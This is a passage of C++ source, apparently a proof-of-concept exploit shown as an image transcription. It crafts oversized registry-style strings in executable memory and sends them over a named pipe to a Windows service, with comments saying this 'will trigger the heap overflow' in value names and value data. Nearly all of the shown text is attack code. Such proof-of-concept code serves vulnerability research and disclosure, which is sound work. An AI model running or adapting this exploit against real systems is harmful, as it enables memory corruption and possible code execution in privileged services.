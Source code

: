 ```C++

	// Create a ValueName that is too large value name in the service
	PSTR pszString = "[HKLM\\SOFTWARE\\VR]\r\"";
	memcpy(pszData, pszString, strlen(pszString));

	pszData[dwSize - 3] = '\"';
	pszData[dwSize - 2] = '=';
	pszData[dwSize - 1] = 0x00;

	// Setup our pipe connection
	if (!InitPipe())
	{
		printf("Error: InitPipe failed\r\n");
		return;
	}

	// This will trigger the heap overflow
	if (!CallPipeFunction(0x10044, (PBYTE)pszData, dwSize, NULL, 0))
	{
		printf("Error: CallPipeFunction failed");
		return;
	}
}

void Vuln_HeapOverflow_StringValueData()
{
	DWORD dwSize = 0x40000;
	PCHAR pszData = (char*)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memset(pszData, 'A', dwSize);

	// Create a String that is too long for the ValueData
	PSTR pszString = "[HKLM\\SOFTWARE\\VR]\r\"ValueName\"=\"";
	memcpy(pszData, pszString, strlen(pszString));

	pszData[dwSize - 2] = '\"';
	pszData[dwSize - 1] = 0x00;

	// Setup our pipe connection
	if (!InitPipe())
	{
		printf("Error: InitPipe failed\r\n");
		return;
	}

	// This will trigger the heap overflow
	if (!CallPipeFunction(0x10044, (PBYTE)pszData, dwSize, NULL, 0))
	{
		printf("Error: CallPipeFunction failed");
		return;
	}
}


int main(int argc, char** argv)
{
	DWORD dwSize = 0x4000;
	PCHAR pszData = (char*)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	if (argc != 2)
	{
		printf("Usage: (a|b|c|d)\r\n");
		return 0;
	}
```